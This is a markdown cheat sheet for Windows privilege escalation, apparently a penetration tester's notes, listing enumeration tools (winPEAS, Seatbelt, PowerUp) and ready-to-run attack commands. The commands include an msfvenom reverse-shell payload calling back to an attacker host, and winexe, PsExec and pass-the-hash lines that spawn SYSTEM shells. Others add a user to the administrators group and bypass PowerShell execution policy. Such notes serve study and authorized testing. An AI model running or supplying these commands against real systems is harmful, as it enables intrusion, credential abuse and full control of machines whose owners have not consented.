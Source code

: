 # Windows Privilege Escalation  

  1. Begin by checking your user and your groups
  `whoami`
  `net user <username>`
  2. run winPEAS with searchfast and cmd
   `searchfast        Avoid sleeping while searching files (notable amount of resources)`
   `cmd               Obtain wifi, cred manager and clipboard information executing CMD commands`
  3. Run seatbelt and other scripts in windows privesc directory
  4. If scripts fail due to antivirus or other unknown reasons, execute the commands manually:
  [SwisskyRep CheatSheet](Other Cheatsheets: http://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
 
 ## Admin Shells
 1. Reverse shell with msfvenom (Note: will be blocked by antivirus)
 `msfvenom -p windows/x64/shell_reverse_ tcp LHOST=x.x.x.x LPORT=XXXX -f exe -o reverse.exe`
 Note: change exe to dll, or msi, and change the extension of output for other filetypes
 
 2. IF RDP is avaialble or can be enabled, we can add a low privileged user to the admin group and then spawn a shell (net localgroup administrators <username> /add) 
  
### Spawn System Shell with Password
winexe -U 'admin%password123' --system //192.168.40.229 cmd.exe

### Spawn System shell with Psexec
To escalate from admin user to full SYSTEM .\PsExec64.exe -accepteula -I -s C:\Location\reverseshell.exe

### Spawn System shell with pass the hash
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.40.232 cmd.exe

## Tools
[winPEAS](https://github.com/carlospolop/priviledge-escalation-awesome-scripts-suite/tree/master/winPEAS)
winPEAS searches and highlights misconfigurations. To enable colors in a command prompt you must first run this command:
`reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1`

Then you must close and reopen the command prompt. Then you can run winPEAS
Note: if you are running winPEAS from a shell on kali you will not need to run this.

[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
* Needs to be run from powershell
* Searches for specific privilege escalation misconfigurations

To run:
1. powershell -exec bypass
2. . .\PowerUp.ps1 
(Alternatively you can run Import-Module PowerUp.ps1
3. Invoke-AllChecks
